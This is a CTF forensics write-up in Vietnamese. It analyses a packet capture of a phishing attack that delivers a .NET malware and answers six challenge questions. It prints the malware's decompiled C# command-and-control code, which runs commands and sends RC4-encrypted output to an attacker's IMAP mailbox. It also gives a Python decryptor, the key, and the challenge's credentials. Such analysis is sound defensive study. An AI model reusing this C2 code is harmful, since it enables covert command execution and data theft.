# _Silent Trap_ _(FORSENSICS)_


Bài cho file pcapng, phân tích và trả lời 6 câu hỏi

>1. What is the subject of the first email that the victim opened and replied to?

Follow HTTP stream 4, thấy được cuộc giao tiếp giữa client và server



Thực hiện GET request xem trước email (_action=preview) trong hộp thư đến (_mbox=INBOX) với UID 71 => opened

Sau đó xuống dưới, thực hiện tiếp GET request với email trên, yêu cầu tải 1 hình ảnh => `replied`

```
Answer: Game Crash on Level 5
```

>2. On what date and time was the suspicious email sent? (Format: YYYY-MM-DD_HH:MM) (for example: 1945-04-30_12:34)

Lúc đang làm thì mình ngồi xem HTTP stream 1, thấy có một GET request lấy danh sách email trong hộp thư đến, server sẽ response danh sách dưới dạng json



Mình thấy được 1 email với tiêu đề `Bug Report - In-game Imbalance Issue in Eldoria`, Eldoria có gì đó giống với tên giải nên mình lấy luôn time của cái email đó

Nhập vô thấy correct :v
```
\nthis.add_message_row(72,{\"subject\":\"Bug Report - In-game Imbalance Issue in Eldoria\",\"fromto\":\"<span class=\\\"adr\\\"><span title=\\\"proplayer@email.com\\\" class=\\\"rcmContactAddress\\\">proplayer@email.com</span></span>\",\"date\":\"Today 15:46\",\"size\":\"13 KB\"},{\"ctype\":\"multipart/mixed\",\"mbox\":\"INBOX\"},false)
```

```
Answer: 2025-02-24_15:46
```
>3. What is the MD5 hash of the malware file?

Export object HTTP, thấy có 1 file zip, khả năng đây sẽ chứa malware



Save về không unzip được, thử crack cũng kh được, thì khả năng mật khẩu sẽ đc tìm thấy trong pcap

Mình tìm đến stream 8, xem cuộc hội thoại giữa client và server về email liên quan đến malware kia



Mình đoán sẽ có pass unzip ở trong này, thử tìm password thì ra



Unzip nhận được 1 file `Eldoria_Balance_Issue_Report.pdf.exe`



```
Answer: c0b37994963cc0aadd6e78a256c51547
```

>4. What credentials were used to log into the attacker's mailbox? (Format: username:password)

Lúc mới vào làm, thì mình thấy có khá nhiều packet, nên có hỏi AI xem cần chú ý vào những protocol nào thì có được chỉ rằng là `IMAP`

Thử lọc IMAP thì có đc luôn username và password



Hoặc là có thể reverse con `malware` kia, `.Net` mình dùng dotpeek để decomplie



Chương trình trên viết bằng `C#` để kết nối đến `IMAP server` sử dụng giao thức `TCP` và `SSL/TLS`

Nhìn vào hàm creds, đây là hàm lưu thông tin đăng nhập để có thể xác thực với máy chủ email `mail.korptech.net`



```
Answer: proplayer@email.com:completed
```
>5. What is the name of the task scheduled by the attacker?

Khi làm thì mình cần tìm câu trả lời càng sớm càng tốt, nên đã kiểu đoán mò khá nhiều, mình đã follow hết các stream liên quan đến IMAP nhưng kh thấy có task scheduled nào của attacker, nên mình nghĩ khả năng rất cao là nó nằm trong đống bị mã hóa này



Từ đây mình sẽ đi vào phân tích đoạn code C#, chú ý đến các hàm sau

```C#
private static void create(string text)
    {
      text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + Program.comp_id + "\r\n\r\n" + text;
      byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + text.Length.ToString() + "}\r\n" + text + "\r\n");
      Task.Factory.FromAsync<byte[], int, int>(new Func<byte[], int, int, AsyncCallback, object, IAsyncResult>(((Stream) Program.ssl).BeginWrite), new Action<IAsyncResult>(((Stream) Program.ssl).EndWrite), bytes, 0, bytes.Length, (object) Program.ssl);
    }
```

Hàm create tạo một email cơ bản với thông tin người gửi, chủ đề (dựa trên thời gian và comp_id), và nội dung text. Sau đó, nó gửi email này lên máy chủ IMAP (vào thư mục "Inbox") thông qua kết nối mạng bảo mật (Program.ssl). Nội dung gửi chính là đoạn văn bản bị mã hóa kia

Tiếp theo

```C#
private static void execute(string[] commands)
    {
      try
      {
        Program.connect(Program.creds.Split(':')[2], 143);
        Program.Login(Program.creds.Split(':')[0], Program.creds.Split(':')[1]);
      }
      catch
      {
        try
        {
          Program.connect(Program.r_creds.Split(':')[2], 143);
          Program.Login(Program.r_creds.Split(':')[0], Program.r_creds.Split(':')[1]);
        }
        catch
        {
        }
      }
      foreach (string command in commands)
      {
        if (command.Contains("change_"))
          Program.change(command);
        else
          Program.create(Convert.ToBase64String(Program.xor(Encoding.UTF8.GetBytes(Program.cmd(command)))));
      }
    }
```
Hàm `execute` thực hiện cố gắng kết nối đến máy chủ email bằng tài khoản chính (proplayer@email.com) , nếu không được thì dùng tài khoản dự phòng (proplayer1@email.com)
- Nếu không phải lệnh `change_` thì chạy lệnh, mã hóa kết quả, và gửi lên máy chủ dưới dạng email

Tiếp theo là hàm mã hóa xor



Hàm sử dụng một mảng byte cố định gồm 256 phần tử làm khóa (key)

Đến đây là mình bị stuck, vì ban đầu mình nghĩ thì chỉ là xor giữa key và data xong base64 encoded thông thường nhưng thử rất nhiều script giải mã mà kh cho ra kết quả mong muốn

Nhìn kĩ lại thì thấy ban đầu hàm return `Exor.encrypt`, giờ mình sẽ đi tìm hàm Exor xem nó làm gì

```C#
namespace imap_chanel
{
  public class Exor
  {
    public static byte[] Encrypt(byte[] pwd, byte[] data)
    {
      int[] numArray1 = new int[256];
      int[] numArray2 = new int[256];
      byte[] numArray3 = new byte[data.Length];
      for (int index = 0; index < 256; ++index)
      {
        numArray1[index] = (int) pwd[index % pwd.Length];
        numArray2[index] = index;
      }
      int index1;
      for (int index2 = index1 = 0; index1 < 256; ++index1)
      {
        index2 = (index2 + numArray2[index1] + numArray1[index1]) % 256;
        int num = numArray2[index1];
        numArray2[index1] = numArray2[index2];
        numArray2[index2] = num;
      }
      int num1;
      int index3 = num1 = 0;
      int index4 = num1;
      int index5 = num1;
      for (; index3 < data.Length; ++index3)
      {
        index5 = (index5 + 1) % 256;
        index4 = (index4 + numArray2[index5]) % 256;
        int num2 = numArray2[index5];
        numArray2[index5] = numArray2[index4];
        numArray2[index4] = num2;
        int num3 = numArray2[(numArray2[index5] + numArray2[index4]) % 256];
        numArray3[index3] = (byte) ((uint) data[index3] ^ (uint) num3);
      }
      return numArray3;
    }
  }
}
```
Đoạn mã trên thực hiện mã hóa RC4, Nó nhận vào một mảng byte pwd (khóa) và một mảng byte data (dữ liệu cần mã hóa)

Đến đây đã xác định được kiểu mã hóa cho đoạn email được gửi đi ở trên:
- RC4 tạo keystream
- Xor keystream với data
- Base64 encoded

Giờ sẽ làm ngược lại và nhờ AI viết để decrypt

```Python
import base64

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])
    return bytes(out)

# Khóa RC4 từ mảng byte bạn cung cấp
key = bytes([
    168, 115, 174, 213, 168, 222, 72, 36, 91, 209, 242, 128, 69, 99, 195, 164,
    238, 182, 67, 92, 7, 121, 164, 86, 121, 10, 93, 4, 140, 111, 248, 44,
    30, 94, 48, 54, 45, 100, 184, 54, 28, 82, 201, 188, 203, 150, 123, 163,
    229, 138, 177, 51, 164, 232, 86, 154, 179, 143, 144, 22, 134, 12, 40, 243,
    55, 2, 73, 103, 99, 243, 236, 119, 9, 120, 247, 25, 132, 137, 67, 66,
    111, 240, 108, 86, 85, 63, 44, 49, 241, 6, 3, 170, 131, 150, 53, 49,
    126, 72, 60, 36, 144, 248, 55, 10, 241, 208, 163, 217, 49, 154, 206, 227,
    25, 99, 18, 144, 134, 169, 237, 100, 117, 22, 11, 150, 157, 230, 173, 38,
    72, 99, 129, 30, 220, 112, 226, 56, 16, 114, 133, 22, 96, 1, 90, 72,
    162, 38, 143, 186, 35, 142, 128, 234, 196, 239, 134, 178, 205, 229, 121, 225,
    246, 232, 205, 236, 254, 152, 145, 98, 126, 29, 217, 74, 177, 142, 19, 190,
    182, 151, 233, 157, 76, 74, 104, 155, 79, 115, 5, 18, 204, 65, 254, 204,
    118, 71, 92, 33, 58, 112, 206, 151, 103, 179, 24, 164, 219, 98, 81, 6,
    241, 100, 228, 190, 96, 140, 128, 1, 161, 246, 236, 25, 62, 100, 87, 145,
    185, 45, 61, 143, 52, 8, 227, 32, 233, 37, 183, 101, 89, 24, 125, 203,
    227, 9, 146, 156, 208, 206, 194, 134, 194, 23, 233, 100, 38, 158, 58, 159
])

# Dữ liệu Base64 cần giải mã
b64_data = """

"""

# Giải mã
data = base64.b64decode(b64_data)
decrypted = rc4(key, data)
print(decrypted.decode(errors="ignore"))
```
Data lấy tại luồng tcp.stream 35





```
Answer: Synchronization
```
> 6. What is the API key leaked from the highly valuable file discovered by the attacker?

Vẫn tiếp tục là lấy data đem decode, thì ở stream 97 sẽ có được đáp án



```
Answer: sk-3498fwe09r8fw3f98fw9832fw
```


